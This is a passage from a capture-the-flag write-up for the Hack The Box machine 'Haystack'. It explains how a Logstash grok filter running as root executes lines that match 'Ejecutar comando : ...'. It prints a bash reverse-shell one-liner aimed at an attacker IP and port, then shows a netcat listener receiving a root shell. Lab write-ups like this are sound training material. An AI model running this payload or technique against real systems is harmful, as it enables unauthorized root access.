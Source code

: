 ```
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.24/4444 0>&1
```
for matching the correct regex, as always, we cannot leave anything at the case, and we need to look at the elastic documentation for the meaning of the syntax of ```%{GREEDYDATA:comando}```.  
essentially logstash is getting data from /opt/kibana/logstash_* and matching lines like ```Ejecutar comando : touch /tmp/helo``` putting into the variable comando the value of the data in the place where the regex is defined.  
GREEDYDATA actually is grok syntax for *. more information can be found [here](https://logz.io/blog/logstash-grok/).  
To check if we are matching the grok filter or not, we can use [this online tool](https://grokdebug.herokuapp.com/).
now we can create a file, for example /opt/kibana/logstash_b0d put inside the above payload, and wait to get a root shell.  
```
root@kali:~/Documents/HTB/Boxes/Haystack# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.115] 47010
bash: no hay control de trabajos en este shell
[root@haystack /]# 
```
